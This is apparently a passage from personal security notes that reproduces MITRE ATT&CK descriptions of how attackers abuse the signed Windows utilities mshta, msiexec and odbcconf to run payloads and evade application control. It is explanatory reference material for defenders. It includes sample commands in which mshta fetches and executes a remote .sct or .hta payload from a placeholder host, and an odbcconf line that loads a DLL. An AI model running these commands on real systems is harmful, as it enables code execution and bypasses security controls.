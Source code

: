 Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code [1](https://www.cylance.com/content/dam/cylance/pdfs/reports/Op_Dust_Storm_Report.pdf) [2](https://www.redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/) [3](https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html) [4](https://airbus-cyber-security.com/fileless-malware-behavioural-analysis-kovter-persistence/) [5](https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html)

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. [6](https://en.wikipedia.org/wiki/HTML_Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. [7](https://msdn.microsoft.com/library/ms536471.aspx)

Files may be executed by mshta.exe through an inline script: `mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))`

They may also be executed directly from URLs: `mshta http[:]//webserver/payload[.]hta`

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. [8](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)

#### Msiexec - T1218.007
[more on T1218.007](https://attack.mitre.org/techniques/T1218/007)

Adversaries may abuse msiexec.exe to proxy execution of malicious payloads. Msiexec.exe is the command-line utility for the Windows Installer and is thus commonly associated with executing installation packages (.msi).[1](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec) Msiexec.exe is digitally signed by Microsoft.

Adversaries may abuse msiexec.exe to launch local or network accessible MSI files. Msiexec.exe can also execute DLLs.[2](https://lolbas-project.github.io/lolbas/Binaries/Msiexec/)[3](https://blog.trendmicro.com/trendlabs-security-intelligence/attack-using-windows-installer-msiexec-exe-leads-lokibot/) Since it is signed and native on Windows systems, msiexec.exe can be used to bypass application control solutions that do not account for its potential abuse. Msiexec.exe execution may also be elevated to SYSTEM privileges if the `AlwaysInstallElevated` policy is enabled.[4](https://docs.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)

#### Odbcconf - T1218.008
[more on T1218.008](https://attack.mitre.org/techniques/T1218/008)

Adversaries may abuse odbcconf.exe to proxy execution of malicious payloads. Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.[1](https://docs.microsoft.com/en-us/sql/odbc/odbcconf-exe?view=sql-server-2017) Odbcconf.exe is digitally signed by Microsoft.

Adversaries may abuse odbcconf.exe to bypass application control solutions that do not account for its potential abuse. Similar to [[T1218_Signed Binary Proxy Execution#Regsvr32 - T1218 010|Regsvr32 (T1218.010)]], odbcconf.exe has a `REGSVR` flag that can be misused to execute DLLs (ex: `odbcconf.exe /S /A {REGSVR "C:\Users\Public\file.dll"}`). [2](https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/)[3](https://blog.trendmicro.com/trendlabs-security-intelligence/backdoor-carrying-emails-set-sights-on-russian-speaking-businesses/)[4](https://blog.trendmicro.com/trendlabs-security-intelligence/cobalt-spam-runs-use-macros-cve-2017-8759-exploit/)
